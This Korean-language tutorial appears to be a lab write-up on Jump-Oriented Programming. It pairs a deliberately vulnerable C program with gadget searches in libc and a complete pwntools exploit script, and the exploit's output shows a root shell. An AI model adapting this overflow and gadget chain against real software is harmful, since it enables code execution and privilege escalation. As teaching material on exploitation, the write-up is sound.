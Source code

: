 ## **Concept**

OP는 JMP 명령을 사용해 프로그램 흐름을 제어하는 Exploit 기술이다.  
JOP Gadget은 "Exploit에 필요한 Code + JMP 명령어"이다.  
JOP는 여러개의 Gadget들을 실행시키기 위해 별도의 Gadget과 구조가 필요하다. 

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o jop jop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

72개 이상의 문자를 입력하면 Return Address를 덮어쓸 수 있다.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3b0:	0x4141414141414141	0x000000000040070a
```

### **Exploit Method**
1. ROP Gadget을 이용하여 rax에 system() 함수 주소 저장
1. JOP Gadget을 이용하여 RDI 레지스터에 "/bin/sh" 저장 후 "jmp rax" 명령어로 system() 함수 호출

### **Find Gadget**

```
root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 1 | grep "pop rax ; ret"
0x00033544: pop rax ; ret  ;  (1 found)
0x0003a727: pop rax ; ret  ;  (1 found)
0x0003a728: pop rax ; ret  ;  (1 found)
0x0003a7f7: pop rax ; ret  ;  (1 found)
0x0003a7f8: pop rax ; ret  ;  (1 found)
0x0003a8a0: pop rax ; ret  ;  (1 found)
0x0003a8a1: pop rax ; ret  ;  (1 found)
0x000abc07: pop rax ; ret  ;  (1 found)
0x00106272: pop rax ; ret  ;  (1 found)
0x00106273: pop rax ; ret  ;  (1 found)
0x001a1448: pop rax ; ret  ;  (1 found)
0x000caabc: pop rax ; retn 0x002F ;  (1 found)

root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 2 | grep "pop rdi ; jmp rax"
0x00104052: pop rdi ; jmp rax ;  (1 found)
```

## **Exploit Code**
```python
from pwn import *

p = process('./jop')
p.recvline()
printf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
system_addr = libBase + 0x45390
binsh_addr = libBase + 0x18cd57
pop_rax_ret = libBase + 0x33544
pop_rdi_jmp_rax = libBase + 0x104052

print('printf_addr: '+str(hex(printf_addr)))
print('libBase_addr: '+str(hex(libBase)))
print('system_addr: '+str(hex(system_addr)))
print('/bin/sh_addr: '+str(hex(binsh_addr)))
print('pop rax ; ret Gadget: '+str(hex(pop_rax_ret)))
print('pop rdi ; jmp rax Gadget: '+str(hex(pop_rdi_jmp_rax)))

payload = 'A'*72
payload += p64(pop_rax_ret)
payload += p64(system_addr)
payload += p64(pop_rdi_jmp_rax)
payload += p64(binsh_addr)


p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/jop# python exploit.py 
[+] Starting local process './jop': pid 2257
printf_addr: 0x7fc07b8a5800
libBase_addr: 0x7fc07b850000
system_addr: 0x7fc07b895390
/bin/sh_addr: 0x7fc07b9dcd57
pop rax ; ret Gadget: 0x7fc07b883544
pop rdi ; jmp rax Gadget: 0x7fc07b954052
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/jop
```

**References**  
[https://www.lazenca.net/pages/viewpage.action?pageId=16810290](https://www.lazenca.net/pages/viewpage.action?pageId=16810290)